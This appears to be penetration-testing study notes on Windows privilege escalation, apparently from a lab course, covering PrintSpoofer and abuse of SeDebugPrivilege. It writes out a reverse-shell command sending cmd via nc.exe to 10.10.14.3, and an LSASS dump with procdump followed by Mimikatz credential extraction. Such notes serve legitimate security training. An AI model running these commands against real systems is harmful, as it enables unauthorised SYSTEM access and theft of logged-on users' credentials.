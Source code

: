 ### PrintSpoofer and RoguePotato
- JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, PrintSpoofer and RoguePotato can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM level access.
- This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the PrintSpoofer tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

- Again, connect with mssqlclient.py and use the tool with the -c argument to execute a command.
```bash
# Escalating Privileges using PrintSpoofer
nc -lnvp 8443

SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

```
### SeDebugPrivilege
- To run a particular application or service or assist with troubleshooting, a user might be assigned the SeDebugPrivilege instead of adding the account into the administrators group. 
- By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. 
- This right may be assigned to developers who need to debug new system components as part of their day-to-day job.
- We can use ProcDump from the SysInternals suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service (LSASS) process, which stores user credentials after a user logs on to a system.
```bat
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Using Mimikatz
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
```
> [!TIP]
> It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.
